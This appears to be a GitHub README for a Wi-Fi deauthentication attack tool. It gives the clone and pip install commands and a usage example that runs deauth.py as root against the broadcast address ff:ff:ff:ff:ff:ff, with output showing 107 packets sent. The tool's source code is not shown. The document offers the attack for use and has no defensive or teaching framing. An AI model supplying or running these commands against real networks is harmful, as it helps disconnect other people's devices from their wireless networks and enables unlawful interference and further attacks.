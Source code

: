 # Wi-Fi-Deauthentication-Attack

## [+] Install
```
git clone https://github.com/OctopusTR/Wi-Fi-Deauthentication-Attack-Tool
cd Wi-Fi-Deauthentication-Attack-Tool
pip install -r requirements.txt
```
## [+] Usage
```
┌──(root㉿octopus)-[~]
└─# python deauth.py ff:ff:ff:ff:ff:ff
WARNING: No route found for IPv6 destination :: (no default route?)
.................................................................................^C
Send 107 packets.
```

